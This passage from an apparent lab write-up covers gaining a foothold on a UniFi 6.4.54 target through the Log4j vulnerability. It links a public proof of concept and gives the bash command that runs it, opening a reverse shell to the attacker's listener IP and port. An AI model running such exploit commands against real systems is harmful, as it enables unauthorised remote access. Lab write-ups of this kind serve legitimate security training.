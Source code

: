 ### Log4j

Since we know the application's version, we can check if any known vulnerability exists. Doing that, reveals the [Log4j vulnerability](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) (Figure 2.1) as well as a [GitHub repository ](https://github.com/puzzlepeaches/Log4jUnifi)with a PoC[^1] (Figure 2.2).

<figure><img src="../../../.gitbook/assets/unified_google.png" alt=""><figcaption><p>Figure 2: Rsearching known vulnerabities for <code>UniFi 6.4.54</code>.</p></figcaption></figure>

The [SprocketSecurity article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) includes both an [exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#exploitation) and a [post-exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitation) route, but let's first try the PoC as it involves less steps. By opening a listener (Figure 3.1) and following the PoC's execution instructions (Figure 3.2), we indeed achieve RCE[^2] and secure our foothold (Figure 3.3).

```bash
# executing the PoC
sudo python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.14.147 -p 1337
```

<figure><img src="../../../.gitbook/assets/unified_rce.png" alt=""><figcaption><p>Figure 3: Establishing our initial foothold.</p></figcaption></figure>


[^1]: Proof of Concept
[^2]: Remote Command Execution
[^3]: Database Management System